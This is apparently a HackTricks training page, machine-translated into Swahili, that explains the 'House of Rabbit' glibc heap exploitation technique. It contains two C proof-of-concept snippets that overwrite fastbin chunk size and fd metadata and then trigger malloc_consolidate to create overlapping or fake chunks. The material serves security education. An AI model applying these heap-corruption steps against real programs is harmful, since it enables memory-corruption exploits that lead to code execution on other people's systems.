 # House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### Requirements

1. **Uwezo wa kubadilisha fast bin fd pointer au saizi**: Hii inamaanisha unaweza kubadilisha pointer ya mbele ya kipande katika fastbin au saizi yake.
2. **Uwezo wa kuchochea `malloc_consolidate`**: Hii inaweza kufanywa kwa kutenga kipande kikubwa au kuunganisha kipande cha juu, ambacho kinawasilisha heap kuunganisha vipande.

### Goals

1. **Unda vipande vinavyoshirikiana**: Ili kuwa na kipande kimoja kinachoshirikiana na kingine, kuruhusu manipulasi zaidi za heap.
2. **Fanya vipande vya uongo**: Ili kumdanganya allocator kut treating kipande cha uongo kama kipande halali wakati wa operesheni za heap.

## Steps of the attack

### POC 1: Badilisha saizi ya kipande cha fast bin

**Objective**: Unda kipande kinachoshirikiana kwa kubadilisha saizi ya kipande cha fastbin.

- **Step 1: Tenga Vipande**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Tunaweka vipande viwili vya 0x40 bytes kila kimoja. Vipande hivi vitakuwa katika orodha ya fast bin mara vitakapokuwa huru.

- **Hatua ya 2: Fungua Vipande**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Tunaachilia vipande vyote viwili, tukiviweka kwenye orodha ya fastbin.

- **Hatua ya 3: Badilisha Ukubwa wa Kipande**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Tunaweka metadata ya saizi ya `chunk1` kuwa 0xa1. Hii ni hatua muhimu ili kumdanganya mtoaji wakati wa kuunganisha.

- **Hatua ya 4: Trigger `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Kuweka sehemu kubwa kunasababisha kazi ya `malloc_consolidate`, ikichanganya sehemu ndogo katika fast bin. Ukubwa uliofanyiwa mabadiliko wa `chunk1` unasababisha iingiliane na `chunk2`.

Baada ya kuunganishwa, `chunk1` inagongana na `chunk2`, ikiruhusu matumizi zaidi.

### POC 2: Badilisha kiashiria cha `fd`

**Lengo**: Kuunda sehemu bandia kwa kubadilisha kiashiria cha fast bin `fd`.

- **Hatua ya 1: Weka Sehemu**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Maelezo**: Tunapanga vipande viwili, kimoja kidogo na kingine kikubwa, ili kuandaa heap kwa ajili ya kipande cha uongo.

- **Hatua ya 2: Unda kipande cha uongo**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Tunaandika metadata ya bandia ya chunk ndani ya `chunk2` ili kuiga chunks ndogo.

- **Hatua ya 3: Fungua `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Maelezo**: Tunachomoa `chunk1`, tukiongeza kwenye orodha ya fastbin.

- **Hatua ya 4: Badilisha `fd` ya `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Maelezo**: Tunabadilisha kiashiria cha mbele (`fd`) cha `chunk1` kuonyesha kwenye kipande chetu cha uongo ndani ya `chunk2`.

- **Hatua ya 5: Chochea `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Kuweka kipande kikubwa tena kunasababisha `malloc_consolidate`, ambayo inashughulikia kipande cha uwongo.

Kipande cha uwongo kinakuwa sehemu ya orodha ya fastbin, na kufanya kuwa kipande halali kwa ajili ya unyakuzi zaidi.

### Muhtasari

Mbinu ya **House of Rabbit** inahusisha ama kubadilisha ukubwa wa kipande cha fast bin ili kuunda vipande vinavyovutana au kudhibiti kiashiria cha `fd` ili kuunda vipande vya uwongo. Hii inawawezesha washambuliaji kuunda vipande halali katika heap, ikiruhusu aina mbalimbali za unyakuzi. Kuelewa na kufanya mazoezi ya hatua hizi kutaboresha ujuzi wako wa unyakuzi wa heap.

{{#include ../../banners/hacktricks-training.md}}
